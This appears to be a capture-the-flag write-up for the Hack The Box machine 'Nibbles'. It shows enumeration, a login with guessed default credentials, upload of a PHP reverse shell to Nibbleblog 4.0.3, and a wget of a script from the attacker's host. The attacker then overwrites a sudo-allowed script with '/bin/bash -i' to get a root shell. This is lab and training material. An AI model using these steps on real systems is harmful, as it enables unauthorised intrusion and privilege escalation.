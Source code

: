 # recon
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

found a hidden text in index.html, which lead us to `nibbles.htb/nibbleblog/`

now gobuster!!!
```
/README
/admin (Status: 301)
/content (Status: 301)
/languages (Status: 301)
/plugins (Status: 301)
/themes (Status: 301)
```

- /nibbleblog/README
```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```
- /nibbleblog/admin.php is a login page. guess and luckly got in with `admin:nibbles`

some digging and found this link from [wikihack](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/)

okey let find our shell on kali
```console
kali@kali:/opt$ sudo find / -name php-reverse* 2> /dev/null
/usr/share/webshells/php/php-reverse-shell.php
```
copy it and modify ip and port
1. upload shell as the guide said
2. nc listen for incoming reverse shell
3. vistie nibbles.htb/nibbleblog/content/private/plugins/my_image/my_image.php

BOOM ! go grab the flag

there is a zip file call personal.zip. I found a .sh call monitor.sh that looks interesting

```console
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```
I googling a bit about **tecmint monitor** but didnt find anything juicy about the script


Escape jail shell by runing `python3 -c 'import pty; pty.spawn("/bin/bash")'`
now let check.. 

- sudo -l
```console
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
since I cant use `vi` or `nano` I decided to create the monitor.sh on my kali and run python webserver then wget it on the victim server. here is the content of `monitor.sh` 
```console
kali@kali:~/HTB/nibbles$ cat monitor.sh 
#!/bin/sh
/bin/bash -i
```
now remove the old .sh and wget the one we created on kali
```console
nibbler@Nibbles:/home/nibbler/personal/stuff$ rm monitor.sh #remove the old one that i uzip it
nibbler@Nibbles:/home/nibbler/personal/stuff$ wget http://10.10.14.8:8888/monitor.sh
<er/personal/stuff$ wget http://10.10.14.8:8888/monitor.sh                   
--2020-10-02 15:00:51--  http://10.10.14.8:8888/monitor.sh
Connecting to 10.10.14.8:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 23 [text/x-sh]
Saving to: 'monitor.sh.1'

monitor.sh.1        100%[===================>]      23  --.-KB/s    in 0s      

2020-10-02 15:00:51 (2.39 MB/s) - 'monitor.sh.1' saved [23/23]
```
now let get root shell! 
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
ls -la
total 24
drwxr-xr-x 2 nibbler nibbler  4096 Oct  2 15:02 .
drwxr-xr-x 3 nibbler nibbler  4096 Dec 10  2017 ..
-rw-r--r-- 1 nibbler nibbler 12288 Oct  2 14:50 .monitor.sh.swp
-rwxrwxrwx 1 nibbler nibbler    23 Oct  2 14:56 monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cd ..
nibbler@Nibbles:/home/nibbler/personal$ sudo stuff/monitor.sh
sudo stuff/monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff# whoami
whoami
root
```
Now go grab root flag

ps: I keep getting this message `sudo: unable to resolve host Nibbles: Connection timed out` 1st time when i run `sudo -l` now again after googling around I found a solution which is add host name to /etc/hosts: `echo "127.0.1.2 Nibbles" >> /etc/hosts`
